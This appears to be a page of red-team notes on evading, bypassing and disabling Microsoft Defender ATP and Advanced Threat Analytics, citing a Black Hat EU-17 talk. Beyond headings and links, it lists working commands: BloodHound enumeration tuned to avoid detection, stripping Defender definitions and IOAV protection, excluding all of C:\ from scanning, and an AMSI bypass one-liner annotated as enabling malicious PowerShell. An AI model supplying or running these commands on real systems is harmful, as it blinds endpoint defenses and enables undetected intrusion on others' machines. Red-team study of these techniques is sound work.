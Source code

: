 ## Evading, Bypassing, and Disabling MS Advanced Threat Protection and Advanced Threat Analytics

PowerShell Downgrade Check in Cobalt

```
powershell Invoke-Command -ComputerName <compname> -ScriptBlock {Get-WindowsFeature PowerShell -V2}
```

[https://www.youtube.com/watch?time\_continue=1&v=fDs9av\_pBaU](https://www.youtube.com/watch?time_continue=1&v=fDs9av_pBaU)

---

[https://www.youtube.com/watch?v=2HNuzUuVyv0](https://www.youtube.com/watch?v=2HNuzUuVyv0)

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf)

### Key Sections:

##### Block All Windows Defender/ATP Comms via FW \(Privileged\)

##### Not Detected: Using LDAP/Powerview To Gather Computers/Users

##### Enumeration via WMI Local Name Space

##### Not Detected: Session Enumeration By Excluding DC’s \(Useful for not flagging if need similar results from BloodHound / UserHunter\)

##### Not Detected: Session Enumeration By Excluding DC’s

`Invoke-BloodHound –ExcludeDc`

Not Detected: Enumerating AD Access Control Entries

```
Invoke-BloodHound -CollectionMethod ACL –ExcludeDC
```







---

**great way to turn off defender and remove previous definitions \(set to factory default\)**

```
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

**if it comes back to life add the C:\ as an exclusion path so it wont flag anything on C:**

```
Add-MpPreference -ExclusionPath "C:\"
```

**turn off amsi, can run malicious powershell now**

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)"

```




